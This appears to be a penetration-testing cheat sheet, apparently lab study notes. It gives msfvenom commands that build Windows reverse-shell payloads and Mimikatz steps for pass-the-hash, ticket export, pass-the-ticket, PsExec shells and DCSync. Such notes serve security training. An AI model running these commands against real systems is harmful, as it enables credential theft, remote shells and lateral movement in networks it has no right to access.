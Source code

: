 ### MSF-Venom
```bash
# list payloads based on architecture & OS
msfvenom -l payloads --platform windows --arch x64
# differentiate stages vs. unstaged
# if the payload has a '/' between shell & reverse TCP, it's a staged payload, else not.
# windows/x64/meterpreter/shell_reverse_tcp vs. windows/x64/meterpreter/shell/reverse_tcp
# payload examples
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=445 -f hta-psh -o shell.hta
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=445 -f exe -o shell_445.exe
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=443 -f exe -o shell_443.exe # non meterpreter shell.


```

---

### Mimikatz
#### Passing the Hash
**General Theory**
- Usually the PTH technique does not work with Kerberos Authentication.
- Different Applications provide different ways to use the PTH techniques.
    - MimiKatz toolkit has the `/pth:` for users to pass in the NTLM hashes.
    - XFREERDP has the `/pth:` parameter in case you don't have the cleartext password.
- Make sure hashes start with a colon in case things don't work out `':'`.

**Converting a KerbTGT into a TGS & Use Any Service in the context of a different user:**
1. Log into a system as `offsec` & get the cached NTLM of another user - `jen`.
2. Now, use the `sekurlsa::pth` module to pass the hash and create a powershell session in the context of this new user - `jen`.
3. Now use the `klist` command to see that no credentials are cached. To cache the KerbTGT, we will try to access some service as jen, but from the command-line.
4. Use the `\\web04` network file share using the `net use \\web04` command. Since the powershell session is running as jen, her **TGT and TGS** will be cached. This can be confirmed with `klist`.
5. Once we have the TGS, this means we can use any service as jen. So we will use `.\PSExec \\web04 cmd` to gain shell as jen with high privs.
**Passing the Ticket**
- TGT is good for authenticating for gaining shells. However, it is TGS provides more flexibility. We can use the `sekurlsa::tickets /export` command to dump all the TGS tickets into the working directory.
- Then you can simply use the `kerberos::ptt` command, and paste one of the ticket names which ends in the `.kirbi` extension.

#### Understanding DC-Sync
`sekurlsa::dcsync`
- Domain controllers sync using DRS replication.
- DRS allows updates via the IDL_DRSGetNCChanges API.
- Domain controllers don't verify update request origins.
- They only check if the requesting SID has necessary privileges.
- Attackers can exploit this to issue rogue updates if they have sufficient rights.
- Privs for the attack to work are - `Replicating Directory Changes`, `Replicating Directory Changes All` and `Replicating Directory Changes in Filtered Set`
- Be a part of the `Domain Admins`, `Enterprise Admins` or `Local Administrators` group.
